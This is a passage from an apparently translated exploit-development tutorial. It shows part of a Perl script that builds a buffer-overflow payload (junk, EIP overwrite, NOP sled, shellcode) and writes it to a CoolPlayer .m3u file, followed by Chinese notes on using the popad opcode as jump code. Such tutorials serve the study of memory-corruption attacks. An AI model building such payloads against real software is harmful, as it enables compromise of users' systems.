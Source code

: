     my $sploit = $junk.$eip.$regs.$esp.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

并运行生成的m3u文件...

![](../Images/WED/4.38.png)

除了使用EIP覆盖（或其他指令地址），您还可以将popad直接并入您的缓冲区shellcode以用作跳转代码并完成相同的操作。popad指令的操作码是\ x61。在这里，我修改了脚本来做到这一点。
